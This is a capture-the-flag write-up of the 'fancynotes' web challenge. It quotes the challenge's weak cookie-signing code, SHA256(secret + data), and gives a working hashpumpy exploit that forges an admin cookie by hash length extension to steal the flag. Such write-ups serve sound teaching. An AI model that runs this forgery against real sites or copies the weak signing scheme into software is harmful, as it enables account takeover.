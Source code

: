 # fancynotes

Categories: Web

Description:
> Hello my friend, I need your help!
> As you know, in Italy food is very important and I'm not good at it... but I want to surprise my parents with a special recipe.
> I asked Marco Giordano for an advice, he is very good, but he didn't want to reveal his secrets...
> I know he saves his recipes on [Fancy Notes](https://fancynotes.m0lecon.fans/), find a way to steal them.
> 
> Author: @RxThorn
> 
> [Source code](https://ctf.m0lecon.it/attachments/391035157d504163961bb2d526b36eb6/fancynotes.zip)

**Tags:** Hash Length Extension SHA, Cookies, Authentication, Flask

## Takeaways

* Hash Length extension attack
* Logging with flask:
    ```python
    # In __init__.py where the app is created:
    app.logger.setLevel(logging.DEBUG)

    # In any other python file (e.g. routes.py):
    from flask import current_app as app

    app.logger.debug('Foobar')
    ```
 * Don't implement the crypto yourself. If you want to sign data, then use an HMAC instead of the scheme used in this challenge!

## Solution

Upon vising the website we are presented with the following page.

![index.png](writeup-resources/index.png)

It is a simple web app where you register, and then you login, and you can make notes.

![create-note.png](writeup-resources/create-note.png)             |  ![notes.png](writeup-resources/notes.png)
:-------------------------:|:-------------------------:

So, let's check the source code to see how we can get the flag.

```python
def init_db(db):
    username = "admin"
    password = random_string(20)

    if User.query.filter_by(username=username).count() > 0:
        return

    user = User(username=username, password=hashlib.sha256(
        password.encode()).hexdigest(), locale='en'
    )
    note = Note(title="flag", body=os.environ.get("FLAG"))
    user.notes.append(note)
    db.session.add(user)
    db.session.commit()
```

So, as we can see, we have to login as `admin` in order to access their notes and get the flag.

The bug lies in the user authentication. When a request arrives, we first check if the user has authenticated

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")
def get_user():
    if not 'user' in request.cookies:
        return None
    # ... reconstruct user from cookie #
    return user
```

So, let's check how the `user` cookie is created

```python
@app.route('/login', methods=['POST', 'GET'])
def login():
    if request.method == 'POST':
        response = make_response(redirect("/notes"))
        response.set_cookie('user', generate_cookie(user))
        return response

def generate_cookie(user):
    SECRET_KEY = os.environ.get("SECRET_KEY")
    user_string = deserialize_user(user)
    signature_string = hashlib.sha256(
        (SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest()
    cookie = base64.b64encode(
        (f'{user_string}|{signature_string}').encode('raw_unicode_escape')).decode()
    return cookie

def deserialize_user(user):
    values = []
    for k in ["username", "locale"]:
        values.append(f'{k}={user.__dict__[k]}')
    return ','.join(values)
```

So, as an example:

![login.png](writeup-resources/login.png)

`user=dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ==`

And the value base64-decodes to:

`username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a`

So, `user_string="username=fane,locale=en"` and `signature_string` is the hash of a secret key concatenated with the `user_string`.

Now, let's check how the server reconstructs the user information from the cookie:

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")

def get_user():
    if not 'user' in request.cookies:
        return None

    SECRET_KEY = os.environ.get("SECRET_KEY")
    cookie = base64.b64decode(request.cookies.get('user')).decode('raw_unicode_escape')
    assert len(cookie.split('|')) == 2
    user_string = cookie.split('|')[0]
    signature_string = cookie.split('|')[1]

    if hashlib.sha256((SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest() != signature_string:
        print("nope")
        return None

    user = serialize_user(user_string)
    return user
```

The server re-computes the hash from the `user_string` sent and its secret, and compares it with the provided hash to determine the integrity of the cookie.

SHA256 is vulnerable to Hash length extension attacks: Given `H(msg1)` and the length of `msg1`, we can compute `H(msg1 || msg2)` with an attacker controlled `msg2`. So, we partially know `msg1` and we can append stuff to the `user_string`, so we also control `msg2`. But, how about the length of `msg1`? We do not know the length of the `SECRET_KEY`. We can brute-force it as it shouldn't be reasonably anything longer than 256 characters (and that is an overapproximation!).

So, we can affect `user_string` and generate spoofed signatures. But how can we abuse this? Let's take a closer look at how the `user` object is generated from the serialized data

```python
def serialize_user(user_string):
    user = dict()
    for kv in user_string.split(','):
        k = kv.split('=')[0]
        v = kv.split('=')[1]
        user[k] = v
    return user
```

Remember the example `user_string="username=fane,locale=en"`. The `serialize_user()` function will iterate over the key-value pairs in the string and set them. We can add another `,username=admin` key-pair to overwrite the previous value and set our username to admin. This will escalate our privileges to the `admin` user.

So, let's write our exploit:

```python
# cookie `user` value 
# username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a
cookie = "dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ=="
cookie = base64.b64decode(cookie).decode('ascii')

user_string, signature_str = cookie.split('|')
Hmessage1 = signature_str
message1_length = 1

message2 = ',username=admin'
while message1_length < 256:
    new_signature, new_msg = hashpumpy.hashpump(signature_str, user_string, message2, message1_length)

    new_cookie = new_msg + b'|' + bytes(new_signature, encoding='utf-8')
    new_cookie = base64.b64encode(new_cookie).decode('ascii')

    s = requests.Session()
    cookie_obj = requests.cookies.create_cookie(
        name="user", value=new_cookie
    )
    s.cookies.set_cookie(cookie_obj)

    r = s.get('http://127.0.0.1:5000/notes', verify=False, allow_redirects=False)
    print(r.text)
    if 'admin' in r.text:
        flag = re.search(r'ptm{.+}', r.text).group(0)
        break

    message1_length += 1

print("Logged in!")
print("Message1 length: " + str(message1_length))
print("user=" + new_cookie)
print("Flag: " + flag)
```

And we get the flag

`ptm{pleaseD0NOTUseCr3am1nCarbon4r4!}`
